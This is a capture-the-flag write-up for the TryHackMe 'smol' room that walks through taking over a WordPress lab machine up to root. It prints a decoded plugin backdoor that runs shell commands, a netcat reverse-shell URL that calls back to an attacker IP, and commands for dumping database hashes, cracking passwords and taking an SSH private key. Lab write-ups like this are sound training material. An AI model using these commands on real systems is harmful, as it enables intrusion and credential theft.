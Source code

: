 # Writeup for tryhackme smol room

## Enumeration

First we use nmap to enumerate the given system

**$nmap -sC -sV -p- -T4 -Pn -oN smol.nmap.log 10.10.90.229**

Which saves the enumeration result in the smol.nmap.log file. We can see that we have two open ports. 22 for ssh and 80 for http. We also have got that wordpress 6.4.3 is hosted on Apache 2.4.41 server. 

After hitting the ip we get that this ip redirects to www.smol.thm address so we need to add this as an entry in our /etc/hosts file

**$sudo vi /etc/hosts**
add below line to the host file

*Target_Machine_IP*  www.smol.thm

Now we can see that it has a website with title AnotherCTF. Now as we know this is a wordpress site we can use wpscan to look for plugins and their vulnerabilities.

**$wpscan --url http://www.smol.thm -e u,p --api-token={Your wpscan API token}**

We have foud a total of 6 vulnerabilities 4 of them are related to wordpress itself and 2 of them related to a plugin called JSmol2WP so we can deduce that we need to work with the last 2 vulnerabilities to get our flag. 

**Vulnerability 1. Unauthenticated Cross-Site Scripting (XSS)** 
[CVE-2018-20462](https://wpscan.com/vulnerability/0bbf1542-6e00-4a68-97f6-48a7790d1c3e)

**Vulnerability 2. Unauthenticated Server Side Request Forgery (SSRF)**

[CVE-2018-20463](https://wpscan.com/vulnerability/ad01dad9-12ff-404f-8718-9ebbd67bf611)

Using SSRF we can get the wp-config.php page from where we can get the userand passwerd for wordpress login then we log into the wordpress server as wpuser. From there we can see there are two unpublished pages under pages section. We can see that under webmaster task there is a plugin called hello dolly is referenced. Now let us compare the hello dolly code from the plugin and the sever. We can see that there is an interesting entry in the hello-dolly function which called eval function let's see what is this all about.

We have found a base 64 string after decodeing we get

**if (isset($_GET["\143\155\x64"])) {system($_GET["\143\x6d\144"])}**

We can see that some kind of encoding is used to obscure the actual text. Let's explore it x64 means it is hexadecimal then 143 maybe octal 155 may also be octal let's try to convert octal to ascii and hex to ascii

**printf "\143\155\x64"**
Which outputs cmd so we can determine that this is a cmd prompt or something now about the last part
**printf "\143\x6d\144"**
Yields the same thing cmd

After a little bit of experimenting we find that we can exec os command via 

**http://www.smol.thm/wp-admin/index/php?cmd=cat /etc/passwd | grep /bin/bash**

We can see that there are 5 users who have login permission. (namely root, think, xavi, diego, gege). Now we will try to have a reverse shell. We can use [revshells.com](https://www.revshells.com) to generate our desired reverse shell. In this case I will use busybox with port 1234 and encoding as URL Encode 

The complete code is 

**http://www.smol.thm/wp-admin/index/php?cmd=busybox%20nc%2010.9.3.15%20-e%20bash**

And run netcat as nc -lvnp 1234. We have got our reverse shell as www-data user. Now we try to connect to the mysql database as wpuser with the previously found password from wp-config.php.

**$mysql -u wpuser -p 'kbL......%G' -D wordpress**

Now we will try get the password hashes from wp_users table. With 

**mysql>select * from wp_users;**

Then we save the hashes to a file and try to break it with john the ripper. We found that diego users password hash has been broken and we get the password. And try to switch to that user with 

## Login as diego

**$su - diego**

We can see that diego user has reused his password in the system too. Now we go to diego's home directory and found our first flag which is in user.txt file. Now we try to list out sudo permission for diego user but we can see that he/she can't run sudo command. Now we run id command and got that diego is a member of internal group so we know that he can see other users home directory so we try to explore other users home directory, and we found that think user has .ssh directory under his/her home directory so we get the id_rsa (i.e private key file) from that user and login as think user with the command 

## Login as think

**$ssh think@www.smol.thm -i id_rsa**

Now we try to explore permission for think but unfortunately we don't have the password of think user so we're going to explore other options that can give us access to other user. 

## Login as GEGE

During exploration we can see that there is a pam.d under /etc/ directory and there is file called su which states that if we login as gege we don't need any authentication so we switch as gege using 

**$su - gege** 

and we successfully switched to gege user. In it's home directory we found that there is a old wordpress backup so we need to get the wordpress file to our local machine. We spawn a python3 http server here.

**$python3 -m http.server 8081**

Now we can get it to our local machine by using

**$wget http://www.smol.thm:8081/wordpress.old.zip**

When attempting to unzip that it asks for a pass. So we use zip2john to generate password hash for the zip 

**$zip2john wordpress.old.zip > arc_smol.hash**

Now, attempting to break the password using john

**$john arc_smol.hash --wordlis=/usr/share/wordlists/rockyou.txt**

We get the password from here. Then we unzip it using that password. And see that there is a wp_config.php file and there is a password for xavi user. Now try to login with that user.

## Login as xavi

**$su - xavi** 

And, voila xavi also reused his password. Now we try to list his sudo permission and see that he can run sudo in all cases. So, we switch to root user using

## Login as root
**$sudo su -**

And we get the root user login to the system and we get our root flag from the root.txt file. This is the end of SMOL
